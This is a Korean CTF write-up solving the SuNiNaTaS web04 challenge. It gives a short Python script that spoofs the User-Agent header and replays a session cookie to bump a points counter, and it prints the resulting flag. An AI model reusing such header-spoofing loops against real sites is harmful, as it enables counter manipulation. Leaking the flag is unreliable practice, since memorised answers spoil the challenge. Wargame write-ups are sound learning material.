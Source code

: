 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-02-42-51.png)


# **Write-Up**

html 소스를 보면 Hint가 나와있다.

![](images/2022-01-03-02-43-08.png)

Point는 50으로 입력하고 Plus를 클릭해도 1밖에 증가안한다. 그리고 25부터는 Plus를 클릭하면 I like SuNiNaTas browser라는 alert문이 뜬다.

![](images/2022-01-03-02-43-11.png)

접속자의 User-Agent를 알려주는 것을 보니 User-Agent를 조작하는 문제인가 보다.

```python
import urllib.request

url     = 'http://suninatas.com/challenge/web04/web04.asp'
request = urllib.request.Request(url)
response= urllib.request.urlopen(request)
cookie  = response.info().get_all('Set-Cookie')[0]
headers = {'User-Agent':'SuNiNaTaS', 'Cookie':cookie}

for i in range(50):
    url     = 'http://suninatas.com/challenge/web04/web04_ck.asp'
    request = urllib.request.Request(url, headers=headers)
    urllib.request.urlopen(request)

url     = 'http://suninatas.com/challenge/web04/web04.asp'
request = urllib.request.Request(url, headers=headers)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
... 생략 ...
<td class="table_top">Change your Us3r Ag3ent</td>
... 생략 ...
```


# **FLAG**

**Change your Us3r Ag3ent**